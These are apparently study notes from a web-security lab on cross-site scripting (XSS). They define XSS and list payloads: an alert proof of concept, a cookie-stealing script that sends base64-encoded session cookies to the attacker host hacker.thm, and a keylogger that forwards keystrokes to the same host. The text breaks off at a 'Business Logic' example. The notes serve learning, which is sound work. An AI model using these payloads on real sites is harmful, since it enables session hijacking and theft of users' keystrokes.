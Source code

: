 # Cross-site Scripting  (XSS)

An injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other useres. 

Cross-site Scripting vulnerabities are very common, and have been found in Steam chat, HackerOne, Shopify and Infogram. 

# XSS Payloads

## Whats a payload?
In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the *intention* and the *modification*

The Intention: What you want to JS to actually do

The Modification: Changes to the code we need to make it execute as every situation is different

## Proof of Concept:

Heres the simplest payload when all you want to do is demonstrate that you *can* achieve XSS on a websites. Just returns an alert:

`<script>alert('XSS');</script>`

## Session Stealing

User session details like login tokens are often kept in cookies on the targets machine.

The below JavaScript takes the target's cookie, encodes in base64 for transmission and then posts it to a website under the hacker's control to be logged:

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`


Once the hacker has these cookies, they can take over the target's session and be logged in as the user.

## Key Logger:

This code acts as a keylogger, forwarding any typed text to a website under attacker control.

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`


## Business Logic:

This payload is more spefic. This would be calling a particular network resource or a JS function. Imagine a JS function for changing the user's email address called `user.changeEmail()`. A payload could look like this:
